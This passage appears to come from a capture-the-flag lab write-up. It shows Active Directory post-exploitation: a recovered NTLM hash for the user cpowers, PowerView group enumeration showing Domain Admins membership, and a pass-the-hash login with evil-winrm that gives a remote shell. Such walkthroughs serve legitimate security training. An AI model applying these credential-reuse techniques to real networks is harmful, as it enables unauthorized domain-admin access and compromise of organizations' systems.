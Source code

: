 ![Desktop View](/assets/img/sample/Trusteds/image4.png){: .normal }

cpowers : 322db798a55f85f09b3d61b976a13c43

With the Powerview module, let's see if our user cpowers belongs to an interesting group.

```bash
PS C:\Users\Administrator> import-module .\PowerView.ps1
import-module .\PowerView.ps1
PS C:\Users\Administrator> Get-DomainGroup -UserName "cpowers"
```

```bash
PS C:\Users\Administrator> Get-DomainGroup -UserName "cpowers" | select name
Get-DomainGroup -UserName "cpowers" | select name

name                                  
----                                  
Denied RODC Password Replication Group
Domain Admins                         
Domain Users                          

```

The user cpowers is the domain administrator. We can use the credentials obtained above to log in with evil-winrm.

```bash
└─# evil-winrm -i 10.10.175.134 -u 'cpowers'  -H 322db798a55f85f09b3d61b976a13c43                               
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\cpowers\Documents> whoami
lab\cpowers
*Evil-WinRM* PS C:\Users\cpowers\Documents> 
```
